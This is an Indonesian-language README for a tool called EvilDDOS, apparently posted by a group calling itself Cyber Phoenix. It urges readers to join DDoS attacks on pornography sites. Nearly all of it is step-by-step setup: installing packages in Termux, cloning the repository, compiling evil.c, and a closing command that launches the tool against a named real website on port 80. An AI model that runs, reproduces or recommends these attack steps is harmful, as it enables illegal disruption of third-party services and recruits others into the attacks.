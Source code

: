 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM MEMBER CYBER PHOENIX🙏

$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/story19/EvilDDOS

$ cd EvilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
